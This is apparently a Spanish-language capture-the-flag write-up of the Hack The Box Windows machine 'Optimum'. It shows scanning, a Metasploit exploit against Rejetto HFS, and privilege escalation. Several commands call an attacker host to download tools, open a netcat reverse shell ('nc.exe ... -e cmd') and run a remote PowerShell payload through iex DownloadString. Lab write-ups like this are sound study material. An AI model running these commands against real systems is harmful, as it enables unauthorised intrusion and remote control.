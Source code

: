 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Optimum            |
| Os                     | Windows            |
| Difficulty             | Easy               |
| Points                 | 0                  |
| IP                     | 10.10.10.8         |


## [](#header-2)Reconocimiento

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Optimum/scan1.png)

### [](#header-3)NMAP   

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.10.8
```

![nmap 1](/assets/images/Optimum/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.8 -oG allPorts
```

![nmap2](/assets/images/Optimum/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p80 10.10.10.8 -oN targeted
```

Buscamos un exploit con:

```s
searchsploit hfs http file server

#Lectura del exploit
searchsploit -x windows/remote/31056.py
```

Ahora que sabemos que si existe exploit para este servicio, usaremos el frame de metasploit para entrar a esta maquina

```s
msfconsole

search rejetto

use exploit/windows/http/rejetto_hfs_exec

show options

set RHOST 10.10.10.8

set LHOST 10.10.14.29

set RPORT 80

#Se abrio una session y para usarla le damos

sessions 1

#Tomamos una captura de pantalla
screenshot
```

Con el ultimo comando tomamos una captura, y podemos ver que ahi se encuentra la flag, abrimos una shell y procedemos a la lectura de la flag.

Para la escalada de privilegios, usaremos netcat. 

Abrimos un http server con python

```s
sudo python3 -m http.server 80
```

Nos lo descargaremos desde nuestra maquina con un:

```s
powershell wget http://10.10.14.29/nc64.exe -outfile nc.exe
#para ejecutarlo primero nos ponemos en escucha del otro lado y damos un:
nc.exe 10.10.14.29 443 -e cmd
```

Para buscar informacion, antes de usar WinPeas podemos aplicar:

```s
reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP"
```

Para enumerar las vulnerabilidades y automatizar el escalamiento de privilegios ahora si usamos winPEAS:

 ```s
powershell invoke-WebRequest -UseBasicParsing 10.10.14.29/winPEASx64.exe -OutFile winPEASx64.exe
```

Agregamos esta linea al final de este<a href="https://github.com/samratashok/nishang"> script</a>:

```s
powershell Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.29/rev.ps1')"
```

powershell invoke-WebRequest -UseBasicParsing 10.10.14.29/rev.ps1 -OutFile rev.ps1

![Root](/assets/images/Optimum/root.png)

![Powned](/assets/images/Optimum/powned.png)